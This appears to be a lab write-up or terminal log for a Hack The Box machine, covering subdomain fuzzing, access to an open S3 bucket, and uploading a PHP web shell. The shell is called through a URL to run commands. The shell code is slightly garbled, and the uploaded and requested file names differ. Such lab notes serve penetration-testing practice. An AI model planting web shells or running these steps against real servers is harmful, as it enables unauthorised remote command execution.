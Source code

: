└─# ffuf -w 2words.txt -H "Host: FUZZ.thetoppers.htb" -u http://thetoppers.htb -fs 11952 


crunch 2 2 > wwords.txt
└─# gobuster vhost --append-domain -u http://thetoppers.htb -w wordlists/SecLists/Discovery/DNS/subdomains-top1million-20000.txt
===============================================================
Gobuster v3.2.0-dev
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://thetoppers.htb
[+] Method:          GET
[+] Threads:         10
[+] Wordlist:        wordlists/SecLists/Discovery/DNS/subdomains-top1million-20000.txt
[+] User Agent:      gobuster/3.2.0-dev
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
2023/01/28 02:18:52 Starting gobuster in VHOST enumeration mode
===============================================================
Found: s3.thetoppers.htb Status: 404 [Size: 21]
Found: gc._msdcs.thetoppers.htb Status: 400 [Size: 306]
Found: _domainkey.thetoppers.htb Status: 400 [Size: 306]
Progress: 19966 / 19967 (99.99%)===============================================================
2023/01/28 02:29:05 Finished
└─# aws s3 ls s3.thetoppers.htb
Unable to locate credentials. You can configure credentials by running "aws configure".
                                                                                                                    
┌──(root㉿kali)-[~]
└─# aws s3 ls s3://thetoppers.htb 
Unable to locate credentials. You can configure credentials by running "aws configure".
                                                                                                                    
┌──(root㉿kali)-[~]
└─# aws configure                
AWS Access Key ID [None]: a
AWS Secret Access Key [None]: a
Default region name [None]: a
Default output format [None]: a
                                                                                                                    
┌──(root㉿kali)-[~]
└─# aws s3 ls s3://thetoppers.htb


Could not connect to the endpoint URL: "https://s3.a.amazonaws.com/thetoppers.htb?list-type=2&prefix=&delimiter=%2F&encoding-type=url"
                                                                                                                    
┌──(root㉿kali)-[~]
└─# 
                                                                                                                    
┌──(root㉿kali)-[~]
└─# aws s3  --endpoint=http://s3.thetoppers.htb ls  s3://thetoppers.htb 
                           PRE images/
2023-01-28 01:05:23          0 .htaccess
2023-01-28 01:05:23      11952 index.php
                                                                                                                    
┌──(root㉿kali)-[~]
└─# 





┌──(root㉿kali)-[/usr/share/webshells]
└─# aws s3  --endpoint=http://s3.thetoppers.htb cp shell.php  s3://thetoppers.htb 
upload: ./shell.php to s3://thetoppers.htb/shell.php             
                                                                                                                    
┌──(root㉿kali)-[/usr/share/webshells]
└─# aws s3  --endpoint=http://s3.thetoppers.htb ls  s3://thetoppers.htb
                           PRE images/
2023-01-28 01:05:23          0 .htaccess
2023-01-28 01:05:23      11952 index.php
2023-01-28 04:11:06         31 shell.php
                                                                                                                    
┌──(root㉿kali)-[/usr/share/webshells]
└─# 


shell.php
<?php system($ GET['cmd']); ?>


--> * http://thetoppers.htb/shell1.php?cmd=ls
will provide the info

